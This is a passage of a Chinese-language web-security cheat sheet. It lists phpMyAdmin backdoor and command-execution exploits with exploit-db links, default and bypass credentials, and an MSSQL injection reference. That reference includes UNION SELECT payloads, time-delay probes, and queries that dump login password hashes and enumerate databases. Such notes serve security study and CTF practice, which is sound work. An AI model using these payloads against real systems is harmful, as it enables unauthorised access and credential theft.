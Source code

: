         - versions: v3.5.2.2
        - server_sync.php Backdoor
        - https://www.exploit-db.com/exploits/21834
    - CVE-2009-1151
        - versions: 2.11.x < 2.11.9.5 and 3.x < 3.1.3.1
        - config/config.inc.php 命令執行
        - https://www.exploit-db.com/exploits/8921
    - 弱密碼 / 萬用密碼
        - phpmyadmin 2.11.9.2: root/空密碼
        - phpmyadmin 2.11.3 / 2.11.4: 用戶名: `'localhost'@'@"`

## MSSQL

- 子字串：
    - `SUBSTRING("abc", 1, 1) => 'a'`
- Ascii function
    - `ascii('A') => 65 `
- Char function
    - `char(65) => 'a'`
- Concatenation
    - `+`
    - `'a'+'b' => 'ab'`
- Delay function
    - `WAITFOR DELAY '0:0:10'`
- 空白字元
    - `01,02,03,04,05,06,07,08,09,0A,0B,0C,0D,0E,0F,10,11,12,13,14,15,16,17,18,19,1A,1B,1C,1D,1E,1F,20`
- IF 語句
    - IF condition true-part ELSE false-part
    - `IF (1=1) SELECT 'true' ELSE SELECT 'false'`
- 註解：
    - `--`
    - `/**/`
- TOP
    - MSSQL 沒有 `LIMIT N, M` 的用法
    - `SELECT TOP 87 * FROM xxx` 取最前面 87 筆
    - 取第 78~87 筆
        - `SELECT pass FROM (SELECT pass, ROW_NUMBER() OVER (ORDER BY (SELECT 1)) AS LIMIT FROM mydb.dbo.mytable)x WHERE LIMIT between 78 and 87`
- 其它：
    - user
    - db_name()
    - user_name()
    - @@version
    - @@language
    - @@servername
    - host_name()
    - has_dbaccess('master')
- 查詢用戶 
    - `select name, loginame from master..syslogins, master..sysprocesses`
- 查用戶密碼 
    - `select user,password from master.dbo.syslogins`
- 當前角色是否為資料庫管理員
    - `SELECT is_srvrolemember('sysadmin')`
- 當前角色是否為db_owner
    - `SELECT IS_MEMBER('db_owner')`
- 爆DB name
    - ```DB_NAME(N)```
    - ```UNION SELECT NULL,DB_NAME(N),NULL--```
    - ```UNION SELECT NULL,name,NULL FROM master ..sysdatabases--```
    - `SELECT catalog_name FROM information_schema.schemata`
    - ```1=(select name from master.dbo.sysdatabases where dbid=5)```
- 爆表名
    - `SELECT table_catalog, table_name FROM information_schema.tables`